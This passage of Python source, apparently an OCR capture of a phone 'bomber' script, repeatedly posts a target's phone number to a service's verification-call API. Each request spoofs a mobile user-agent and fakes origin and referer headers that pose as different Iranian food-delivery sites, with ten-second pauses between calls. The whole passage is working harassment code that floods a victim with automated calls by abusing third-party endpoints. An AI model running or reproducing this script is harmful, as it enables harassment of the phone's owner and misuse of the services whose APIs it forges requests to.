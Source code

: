         time.sleep(10)

        headers = {
        "user-agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36",
        "content-type": "application/json;charset\u003dUTF-8",
        "origin": "https://pastapatogh.ir.app",
        "referer": "https://pastapatogh.ir.app/",
    }
        json = {"phone":"0"+phone}
        req = requests.post("https://api.behtarino.com/api/v1/users/phone_verification/call/", headers = headers, json=json)
        print(req.text)

        time.sleep(10)

        headers = {
        "user-agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36",
        "content-type": "application/json;charset\u003dUTF-8",
        "origin": "https://sedaryekfood.ir",
        "referer": "https://sedaryekfood.ir/",
    }
        json = {"phone":"0"+phone}
        req = requests.post("https://api.behtarino.com/api/v1/users/phone_verification/call/", headers = headers, json=json)
        print(req.text)

        time.sleep(10)

        headers = {
        "user-agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36",
        "content-type": "application/json;charset\u003dUTF-8",
        "origin": "https://fastfood.ir.app",
        "referer": "https://fastfood.ir.app/",
    }
        json = {"phone":"0"+phone}
        req = requests.post("https://api.behtarino.com/api/v1/users/phone_verification/call/", headers = headers, json=json)
        print(req.text)

        time.sleep(10)

else:
    print("wrong")
